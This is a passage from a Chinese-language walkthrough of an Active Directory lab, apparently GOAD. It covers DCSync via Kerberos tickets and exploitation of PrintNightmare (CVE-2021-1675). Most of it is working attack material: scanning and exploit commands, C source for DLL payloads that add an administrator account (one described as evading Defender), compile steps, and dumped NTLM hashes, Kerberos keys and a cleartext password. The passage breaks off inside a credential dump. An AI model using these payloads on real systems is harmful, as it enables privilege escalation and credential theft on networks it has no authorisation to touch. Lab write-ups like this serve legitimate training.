[+] No service realm in new SPN, using the current one (NORTH.SEVENKINGDOMS.LOCAL)
[*] Changing service from winterfell@NORTH.SEVENKINGDOMS.LOCAL to CIFS/winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL
[*] Saving ticket in administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
```

- 提供ST进行DCSync（卷影拷贝服务 读取ntds.dit）

```bash
export KRB5CCNAME=administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
impacket-secretsdump -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' @'winterfell.north.sevenkingdoms.local'
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xae5564d04e225ccba0d2643161c48b10
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
NORTH\WINTERFELL$:plain_password_hex:d452d7acbee89340ffd08a60348d69f58cf4183c4cf361f8dfca34938ebb435e77372871f8268d42ad52cd99492e8b7a73e131d386300378032c818fc3a48089ff79a5fd4a3fd34ae3bf2cd15427b853bef44a2e8e9b2bcf9ceabba4f99d9da6f2b5e2e9558517c5bd6a0ab0a1c42ad05a084b97fee2f3efb40b484a68c242dfed0f174bfca7859e888bc99915fc126489cafd27fcea31987b9edae98a8d7c2748d3105e09e75ae1807da54eb2932ba1f6fe74304ee811d274a8d64f3e61e1b3ca03956f334ceae55b551fb1807d03700d9165818942726d1477a8478a797ca1b29f5ebfccdea59253878e7ad2d3e26a
NORTH\WINTERFELL$:aad3b435b51404eeaad3b435b51404ee:aa685d65871bfdf122009745b03f8e01:::
[*] DefaultPassword
NORTH\robb.stark:sexywolfy
[*] DPAPI_SYSTEM
dpapi_machinekey:0x6c83b7e5a495bf35a524aeff74c92593143c17a0
dpapi_userkey:0x334f998763f721c1dd63a9ebde90054970e54c06
[*] NL$KM
 0000   22 34 01 76 01 70 30 93  88 A7 6B B2 87 43 59 69   "4.v.p0...k..CYi
 0010   0E 41 BD 22 0A 0C CC 23  3A 5B B6 74 CB 90 D6 35   .A."...#:[.t...5
 0020   14 CA D8 45 4A F0 DB 72  D5 CF 3B A1 ED 7F 3A 98   ...EJ..r..;...:.
 0030   CD 4D D6 36 6A 35 24 2D  A0 EB 0F 8E 3F 52 81 C9   .M.6j5$-....?R..
NL$KM:223401760170309388a76bb2874359690e41bd220a0ccc233a5bb674cb90d63514cad8454af0db72d5cf3ba1ed7f3a98cd4dd6366a35242da0eb0f8e3f5281c9
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8bf38852ab8d3a887ae867500c9a48c5:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
arya.stark:1109:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::
eddard.stark:1110:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
catelyn.stark:1111:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::
robb.stark:1112:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
sansa.stark:1113:aad3b435b51404eeaad3b435b51404ee:2c643546d00054420505a2bf86d77c47:::
brandon.stark:1114:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::
rickon.stark:1115:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::
hodor:1116:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::
jon.snow:1117:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::
samwell.tarly:1118:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::
jeor.mormont:1119:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::
sql_svc:1120:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
WINTERFELL$:1001:aad3b435b51404eeaad3b435b51404ee:aa685d65871bfdf122009745b03f8e01:::
CASTELBLACK$:1104:aad3b435b51404eeaad3b435b51404ee:723026eda8195b4bd9e82caef809c40f:::
pac1$:1122:aad3b435b51404eeaad3b435b51404ee:0eddedc35eb7b7ecde0c9f0564e54c83:::
SEVENKINGDOMS$:1121:aad3b435b51404eeaad3b435b51404ee:1b89cf55c349b296a8fc34f95d7580e0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e7aa0f8a649aa96fab5ed9e65438392bfc549cb2695ac4237e97996823619972
Administrator:aes128-cts-hmac-sha1-96:bb7b6aed58a7a395e0e674ac76c28aa0
Administrator:des-cbc-md5:fe58cdcd13a43243
krbtgt:aes256-cts-hmac-sha1-96:82b8cbbbe398df35611657a4fab06f32fedc6a9c0036ae6e0988193de5c30a8c
krbtgt:aes128-cts-hmac-sha1-96:d4a753716a2747b19c1eb09a9e0d4a97
krbtgt:des-cbc-md5:708ad92523fdf7b6
vagrant:aes256-cts-hmac-sha1-96:aa97635c942315178db04791ffa240411c36963b5a5e775e785c6bd21dd11c24
vagrant:aes128-cts-hmac-sha1-96:0d7c6160ffb016857b9af96c44110ab1
vagrant:des-cbc-md5:16dc9e8ad3dfc47f
arya.stark:aes256-cts-hmac-sha1-96:2001e8fb3da02f3be6945b4cce16e6abdd304974615d6feca7d135d4009d4f7d
arya.stark:aes128-cts-hmac-sha1-96:8477cba28e7d7cfe5338d172a23d74df
arya.stark:des-cbc-md5:13525243d6643285
eddard.stark:aes256-cts-hmac-sha1-96:f6b4d01107eb34c0ecb5f07d804fa9959dce6643f8e4688df17623b847ec7fc4
eddard.stark:aes128-cts-hmac-sha1-96:5f9b06a24b90862367ec221a11f92203
eddard.stark:des-cbc-md5:8067f7abecc7d346
catelyn.stark:aes256-cts-hmac-sha1-96:c8302e270b04252251de40b2bd5fba37395b55d5ed9ac95e03213dc739827283
catelyn.stark:aes128-cts-hmac-sha1-96:50ce7e2ad069fa40fb2bc7f5f9643d93
catelyn.stark:des-cbc-md5:6b314670a2f84cfb
robb.stark:aes256-cts-hmac-sha1-96:d7df5069178bbc93fdc34bbbcb8e374fd75c44d6ce51000f24688925cc4d9c2a
robb.stark:aes128-cts-hmac-sha1-96:b2965905e68356d63fedd9904357cc42
robb.stark:des-cbc-md5:c4b62c797f5dd01f
sansa.stark:aes256-cts-hmac-sha1-96:cd2460a78e8993442498d3f242a88ae110ec6556e40c8add6aab12cfb44b3fa1
sansa.stark:aes128-cts-hmac-sha1-96:18b9d10bd18d1956ba73c14426ec519f
sansa.stark:des-cbc-md5:e66445757c31c176
brandon.stark:aes256-cts-hmac-sha1-96:6dd181186b68898376d3236662f8aeb8fa68e4b5880744034d293d18b6753b10
brandon.stark:aes128-cts-hmac-sha1-96:9de3581a163bd056073b71ab23142d73
brandon.stark:des-cbc-md5:76e61fda8a4f5245
rickon.stark:aes256-cts-hmac-sha1-96:79ffda34e5b23584b3bd67c887629815bb9ab8a1952ae9fda15511996587dcda
rickon.stark:aes128-cts-hmac-sha1-96:d4a0669b1eff6caa42f2632ebca8cd8d
rickon.stark:des-cbc-md5:b9ec3b8f2fd9d98a
hodor:aes256-cts-hmac-sha1-96:a33579ec769f3d6477a98e72102a7f8964f09a745c1191a705d8e1c3ab6e4287
hodor:aes128-cts-hmac-sha1-96:929126dcca8c698230b5787e8f5a5b60
hodor:des-cbc-md5:d5764373f2545dfd
jon.snow:aes256-cts-hmac-sha1-96:5a1bc13364e758131f87a1f37d2f1b1fa8aa7a4be10e3fe5a69e80a5c4c408fb
jon.snow:aes128-cts-hmac-sha1-96:d8bc99ccfebe2d6e97d15f147aa50e8b
jon.snow:des-cbc-md5:084358ceb3290d7c
samwell.tarly:aes256-cts-hmac-sha1-96:b66738c4d2391b0602871d0a5cd1f9add8ff6b91dcbb7bc325dc76986496c605
samwell.tarly:aes128-cts-hmac-sha1-96:3943b4ac630b0294d5a4e8b940101fae
samwell.tarly:des-cbc-md5:5efed0e0a45dd951
jeor.mormont:aes256-cts-hmac-sha1-96:be10f893afa35457fcf61ecc40dc032399b7aee77c87bb71dd2fe91411d2bd50
jeor.mormont:aes128-cts-hmac-sha1-96:1b0a98958e19d6092c8e8dc1d25c788b
jeor.mormont:des-cbc-md5:1a68641a3e9bb6ea
sql_svc:aes256-cts-hmac-sha1-96:24d57467625d5510d6acfddf776264db60a40c934fcf518eacd7916936b1d6af
sql_svc:aes128-cts-hmac-sha1-96:01290f5b76c04e39fb2cb58330a22029
sql_svc:des-cbc-md5:8645d5cd402f16c7
WINTERFELL$:aes256-cts-hmac-sha1-96:c0880c4af7d14d09402a8138bb48d1b526e1fa5f5fc4ce4f9fe89ef2422eb304
WINTERFELL$:aes128-cts-hmac-sha1-96:23b19c152d6b8c3aa275b16b082675ed
WINTERFELL$:des-cbc-md5:7ff72c75d5d683b5
CASTELBLACK$:aes256-cts-hmac-sha1-96:ac20a1c7051889152b6811094c6e52bd854d347a0e9b52ad63b6ea98794b1423
CASTELBLACK$:aes128-cts-hmac-sha1-96:c1fe9a27470b9bd8e0e9537e4f63b3ae
CASTELBLACK$:des-cbc-md5:fec498bf3eea5ef8
pac1$:aes256-cts-hmac-sha1-96:6b39a7268d7d0466586bcdfa77e9cef6d0ba120257008ddd5892cbc8a536354c
pac1$:aes128-cts-hmac-sha1-96:0d025466431d8d82013a9fa52889ab19
pac1$:des-cbc-md5:c75dda37ad4a4f32
SEVENKINGDOMS$:aes256-cts-hmac-sha1-96:c2ac7ab055d49ba523564eab3bfe041e026ce6745413cb8ea19514771de06080
SEVENKINGDOMS$:aes128-cts-hmac-sha1-96:5796cbf539ac141f8fed3a05892eff12
SEVENKINGDOMS$:des-cbc-md5:92d5bf79fe57158a
[*] Cleaning up...
```

### PrintNightmare

#### PrintNightmare 简要概述

##### 打印机后台处理程序

Print Spooler 是 Microsoft 内置的管理打印作业的服务，默认情况下启用它，并在 SYSTEM 上下文中运行

打印机后台处理程序注册了 3 个 RPC 协议：

- MS-RPRN：Microsoft 的打印系统远程协议。它定义了打印客户端和打印服务器之间同步进行的打印作业处理和打印系统管理的通信
- MS-PAR：Microsoft 的打印系统异步远程协议。它具有与 MS-RPRN 相同的功能，但以异步方式工作
- MS-PAN：Microsoft 的打印系统异步通知协议。用于从打印服务器接收打印状态通知，并将服务器请求的响应发送回服务器

PrintNightmare 指的是 RCE（远程命令执行）漏洞。如果易受攻击的机器配置为拒绝远程连接，则此漏洞仍可能在 LPE（本地特权提升）上下文中被利用

1. 攻击者将驱动程序 DLL 文件存储在服务器可访问的 SMB 共享上

2. 客户端创建一个包含指向攻击者 DLL 的路径的 DRIVER_INFO_2 对象，并将其传递给 DRIVER_CONTAINER 对象

3. 客户端使用 DRIVER_CONTAINER 调用 RpcAddPrinterDriverEx，将攻击者的 DLL 加载到服务器的动态库中，并使用 dwFileCopyFlags 中的多个位值来绕过服务器的 SeLoadDriverPrivilege 权限验证

4. 攻击者的 DLL 在服务器上以 SYSTEM 上下文执行

#### PrintNightmare 攻击实践

##### 检查 spooler

为了利用 printnightmare，我们将首先检查spooler是否在目标上处于活动状态

- 使用cme扫描

```bash
cme smb 192.168.56.10-23 -M spooler
```

```bash
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         192.168.56.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SPOOLER     192.168.56.22   445    CASTELBLACK      Spooler service enabled
SPOOLER     192.168.56.11   445    WINTERFELL       Spooler service enabled
SPOOLER     192.168.56.10   445    KINGSLANDING     Spooler service enabled
SPOOLER     192.168.56.23   445    BRAAVOS          Spooler service enabled
SPOOLER     192.168.56.12   445    MEEREEN          Spooler service enabled
```

- 使用 impacket-rpcdump

```bash
rpcdump.py @192.168.56.10 | egrep 'MS-RPRN|MS-PAR'
```

```bash
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
Protocol: [MS-RPRN]: Print System Remote Protocol
```

##### 准备 dll

- 准备利用dll
- 将创建一个用户并将其添加为本地管理员
- 创建文件 nightmare.c：

```c
#include <windows.h>

int RunCMD()
{
    system("net users pnightmare Passw0rd123. /add");
    system("net localgroup administrators pnightmare /add");
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        RunCMD();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

- 编译

```bash
x86_64-w64-mingw32-gcc -shared -o nightmare.dll nightmare.c
```

##### 在旧的Windows Server 2016 上攻击(meereen 192.168.56.12)

- 克隆仓库

```bash
git clone https://github.com/cube0x0/CVE-2021-1675 printnightmare
```

- 准备smb共享

```bash
smbserver.py -smb2support ATTACKERSHARE .
```

- 检查是否存在pnightmare用户

```bash
cme smb meereen.essos.local -u pnightmare -p "Passw0rd123."
```

```bash
SMB         essos.local     445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         essos.local     445    MEEREEN          [-] essos.local\pnightmare:Passw0rd123. STATUS_LOGON_FAILURE
```

- 攻击Braavos
  - Braavos 是最新的 Windows Server 2016，该漏洞将不起作用（如果在North 域攻击castelblack 服务器，也会出现同样的错误）

```bash
python3 CVE-2021-1675.py essos.local/jorah.mormont:'H0nnor!'@braavos.essos.local '\\192.168.56.106\ATTACKERSHARE\nightmare.dll'
```

```bash
[*] Connecting to ncacn_np:braavos.essos.local[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_1baafcdc8c75e648\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.56.106\ATTACKERSHARE\nightmare.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Stage2: 0
[+] Exploit Completed
```

```bash
cme smb braavos.essos.local -u pnightmare -p "Passw0rd123."
```

```bash
SMB         braavos.essos.local 445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         braavos.essos.local 445    BRAAVOS          [+] essos.local\pnightmare:Passw0rd123.
```

- 攻击 Meereen

```bash
cme smb meereen.essos.local -u pnightmare -p "Passw0rd123."
```

```bash
python3 CVE-2021-1675.py essos.local/jorah.mormont:'H0nnor!'@meereen.essos.local '\\192.168.56.106\ATTACKERSHARE\nightmare.dll'
```

```bash
[*] Connecting to ncacn_np:meereen.essos.local[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_e233a12d01c18082\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.56.106\ATTACKERSHARE\nightmare.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Stage2: 0
[+] Exploit Completed
```

```bash
SMB         essos.local     445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         essos.local     445    MEEREEN          [+] essos.local\pnightmare:Passw0rd123. (admin)
```

```bash
impacket-secretsdump essos.local/pnightmare:'Passw0rd123.'@192.168.56.12
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xd70afcfac8ecb0c7edbb85f0ce5ec182
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
ESSOS\MEEREEN$:aes256-cts-hmac-sha1-96:c9b0d7929fbe3788056e45c9f6b131aea50883b70c756b008e403db947259498
ESSOS\MEEREEN$:aes128-cts-hmac-sha1-96:3058fd6579484ade1311962d5b7e3a3a
ESSOS\MEEREEN$:des-cbc-md5:f47915499d089146
ESSOS\MEEREEN$:plain_password_hex:e0a91bdf02d9966caf4c17f685a5e5cae9fb0afd6050b0043948d0a25913c38d81eeba11bb100bdca9c84a597fc0e39d2bb5c3c7170369c5fd0b8ed5e6add2e7e3c10b99b9f6ed66db50da49fc2d63e19e302fe153475b2f74977416a42de7c30cf3fbc903909c52b45c7098c4c732b7ae2305a91dbaada465ca4ba29ac6050fd2f03b185d049c2f2aa3a4dee22804887b94946949cc4535cc3f30610885ce0077c2222fc23c331758c34ecb73370fbdd57c87039f11f182c26ef3cf430f9a2a8518564950e9732483627aa1819450278af4de8ce72571ce5fda4f2f25a2fce0c9465e3127dcf50862292f5a06071e3e
ESSOS\MEEREEN$:aad3b435b51404eeaad3b435b51404ee:65b5725563ffa6f5fc281f9d50fc5800:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0xe6b7f52b5c03e8d141ba7ea78c62389e994cdec8
dpapi_userkey:0x15d1bb5aed0505509c45e8e624b86936f3367701
[*] NL$KM
 0000   48 12 38 16 FC 21 D8 4B  13 02 2E EF A9 E1 B3 FF   H.8..!.K........
 0010   C8 F3 E1 9B 62 AC A5 2C  F8 3E 07 1B 66 C5 93 AD   ....b..,.>..f...
 0020   06 16 32 5D 1D 00 C0 84  9B EF 1F 84 1C B1 E3 F3   ..2]............
 0030   41 8A ED 9D 0A 6A 75 6F  EC 7B D9 79 CF 8E 24 D9   A....juo.{.y..$.
NL$KM:48123816fc21d84b13022eefa9e1b3ffc8f3e19b62aca52cf83e071b66c593ad0616325d1d00c0849bef1f841cb1e3f3418aed9d0a6a756fec7bd979cf8e24d9
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d1483637e7558e6c9fd2444d36b7d09c:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
daenerys.targaryen:1109:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::
viserys.targaryen:1110:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::
khal.drogo:1111:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::
jorah.mormont:1112:aad3b435b51404eeaad3b435b51404ee:4d737ec9ecf0b9955a161773cfed9611:::
sql_svc:1113:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
pnightmare:1115:aad3b435b51404eeaad3b435b51404ee:58cf12d7448ca3ea7da502c83ee6a31e:::
MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:65b5725563ffa6f5fc281f9d50fc5800:::
BRAAVOS$:1114:aad3b435b51404eeaad3b435b51404ee:34421ab85c621e07de111c8f00dcb0f8:::
SEVENKINGDOMS$:1104:aad3b435b51404eeaad3b435b51404ee:6a213ca40fa7112c94408685e1a130ac:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:ffc363bf4da15f300cc52df59ba993100700d9de45fa27dc0b9915e5c3677853
krbtgt:aes128-cts-hmac-sha1-96:23c7c97f4e05b85208f74d31febe818c
krbtgt:des-cbc-md5:027a929110542f25
daenerys.targaryen:aes256-cts-hmac-sha1-96:cf091fbd07f729567ac448ba96c08b12fa67c1372f439ae093f67c6e2cf82378
daenerys.targaryen:aes128-cts-hmac-sha1-96:eeb91a725e7c7d83bfc7970532f2b69c
daenerys.targaryen:des-cbc-md5:bc6ddf7ce60d29cd
viserys.targaryen:aes256-cts-hmac-sha1-96:b4124b8311d9d84ee45455bccbc48a108d366d5887b35428075b644e6724c96e
viserys.targaryen:aes128-cts-hmac-sha1-96:4b34e2537da4f1ac2d16135a5cb9bd3e
viserys.targaryen:des-cbc-md5:70528fa13bc1f2a1
khal.drogo:aes256-cts-hmac-sha1-96:2ef916a78335b11da896216ad6a4f3b1fd6276938d14070444900a75e5bf7eb4
khal.drogo:aes128-cts-hmac-sha1-96:7d76da251df8d5cec9bf3732e1f6c1ac
khal.drogo:des-cbc-md5:b5ec4c1032ef020d
jorah.mormont:aes256-cts-hmac-sha1-96:286398f9a9317f08acd3323e5cef90f9e84628c43597850e22d69c8402a26ece
jorah.mormont:aes128-cts-hmac-sha1-96:896e68f8c9ca6c608d3feb051f0de671
jorah.mormont:des-cbc-md5:b926916289464ffb
sql_svc:aes256-cts-hmac-sha1-96:ca26951b04c2d410864366d048d7b9cbb252a810007368a1afcf54adaa1c0516
sql_svc:aes128-cts-hmac-sha1-96:dc0da2bdf6dc56423074a4fd8a8fa5f8
sql_svc:des-cbc-md5:91d6b0df31b52a3d
pnightmare:aes256-cts-hmac-sha1-96:08da34ebff1dd974ef4694a80381ba0b91053db8c1ff3408c49b1ec870a355ae
pnightmare:aes128-cts-hmac-sha1-96:1e52001e6c4555756489ac2632ff1920
pnightmare:des-cbc-md5:5ef4f1d368f476ab
MEEREEN$:aes256-cts-hmac-sha1-96:c9b0d7929fbe3788056e45c9f6b131aea50883b70c756b008e403db947259498
MEEREEN$:aes128-cts-hmac-sha1-96:3058fd6579484ade1311962d5b7e3a3a
MEEREEN$:des-cbc-md5:e0497ac8ef9e4604
BRAAVOS$:aes256-cts-hmac-sha1-96:01f6db95d2cd692622389a66111abdfb8be52c648d4ea388353df4a1f88f5dc3
BRAAVOS$:aes128-cts-hmac-sha1-96:39f0fe20fecbf5611d050655a966dab9
BRAAVOS$:des-cbc-md5:8f5b150b7ff1c292
SEVENKINGDOMS$:aes256-cts-hmac-sha1-96:daa64a0546cd39ab46ea1b2d3d9e76843143243feb7cdeb6f2ce99eee6468636
SEVENKINGDOMS$:aes128-cts-hmac-sha1-96:c8a4201e7c5134faaff2263ec8b18888
SEVENKINGDOMS$:des-cbc-md5:fd4389cb1fae10d0
[*] Cleaning up...
```

> Wait, you use domain connection instead of –local-auth with cme no ?
>
> 是的，这是因为meereen是一个域控制器
> 域控制器没有内置域或帐户域。 此外，这些系统不使用 SAM 数据库，而是使用 Microsoft Active Directory 目录服务来存储帐户访问信息
> 参见 <https://docs.microsoft.com/en-us/windows/win32/secmgmt/built-in-and-account-domains>

##### 在windows server 2019 (winterfell 192.168.56.11)上攻击

- 现在在易受攻击的 Windows Server 2019 上尝试相同的漏洞利用
- 它也有效，但用户不在管理员组中:(
- 与漏洞无关，只是我们的 dll 将用户添加为管理员，当用户设置为管理员时被捕获



- 好（事情）要知道：在发生一些故障后，后台打印程序服务将被防御者停止，并且在有人重新启动服务器或后台打印程序服务之前，您将无法再利用该服务。
- 下面使用另一段代码修改有效负载，来源：[newsoft/adduser](https://github.com/newsoft/adduser)。

```c
/*
 * ADDUSER.C: creating a Windows user programmatically.
 */

#define UNICODE
#define _UNICODE

#include <windows.h>
#include <string.h>
#include <lmaccess.h>
#include <lmerr.h>
#include <tchar.h>


DWORD CreateAdminUserInternal(void)
{
    NET_API_STATUS rc;
    BOOL b;
    DWORD dw;

    USER_INFO_1 ud;
    LOCALGROUP_MEMBERS_INFO_0 gd;
    SID_NAME_USE snu;

    DWORD cbSid = 256;    // 256 bytes should be enough for everybody :)
    BYTE Sid[256];

    DWORD cbDomain = 256 / sizeof(TCHAR);
    TCHAR Domain[256];

    // Create user
    memset(&ud, 0, sizeof(ud));

    ud.usri1_name        = _T("pnightmare2");                // username
    ud.usri1_password    = _T("Test123456789!");             // password
    ud.usri1_priv        = USER_PRIV_USER;                   // cannot set USER_PRIV_ADMIN on creation
    ud.usri1_flags       = UF_SCRIPT | UF_NORMAL_ACCOUNT;    // must be set
    ud.usri1_script_path = NULL;

    rc = NetUserAdd(
        NULL,            // local server
        1,                // information level
        (LPBYTE)&ud,
        NULL            // error value
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetUserAdd FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

   _tprintf(_T("NetUserAdd OK\r\n"), rc, rc);

    // Get user SID
    b = LookupAccountName(
        NULL,            // local server
        ud.usri1_name,   // account name
        Sid,             // SID
        &cbSid,          // SID size
        Domain,          // Domain
        &cbDomain,       // Domain size
        &snu             // SID_NAME_USE (enum)
    );

    if (!b) {
        dw = GetLastError();
        _tprintf(_T("LookupAccountName FAIL %d 0x%08x\r\n"), dw, dw);
        return dw;
    }

    // Add user to "Administrators" local group
    memset(&gd, 0, sizeof(gd));

    gd.lgrmi0_sid = (PSID)Sid;

    rc = NetLocalGroupAddMembers(
        NULL,                    // local server
        _T("Administrators"),
        0,                        // information level
        (LPBYTE)&gd,
        1                        // only one entry
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetLocalGroupAddMembers FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

    return 0;
}

//
// DLL entry point.
//

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateAdminUserInternal();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

// RUNDLL32 entry point
#ifdef __cplusplus
extern "C" {
#endif

__declspec(dllexport) void __stdcall CreateAdminUser(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow)
{
    CreateAdminUserInternal();
}

#ifdef __cplusplus
}
#endif

// Command-line entry point.
int main()
{
    return CreateAdminUserInternal();
}
```

- 使用此有效负载，我们可以绕过防御者并将我们的用户添加为管理员
- 编译

```bash
x86_64-w64-mingw32-gcc -shared -opnightmare2.dll adduser.c -lnetapi32
```

```bash
python3 CVE-2021-1675.py  north.sevenkingdoms.local/jon.snow:'iknownothing'@winterfell.north.sevenkingdoms.local '\\192.168.56.106\ATTACKERSHARE\pnightmare2.dll'
```

```bash
[*] Connecting to ncacn_np:winterfell.north.sevenkingdoms.local[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.56.106\ATTACKERSHARE\pnightmare2.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Stage2: 0
[+] Exploit Completed
```

```bash
impacket-secretsdump north.sevenkingdoms.local/pnightmare2:'Test123456789!'@192.168.56.11
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xae5564d04e225ccba0d2643161c48b10
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
NORTH\WINTERFELL$:aes256-cts-hmac-sha1-96:c0880c4af7d14d09402a8138bb48d1b526e1fa5f5fc4ce4f9fe89ef2422eb304
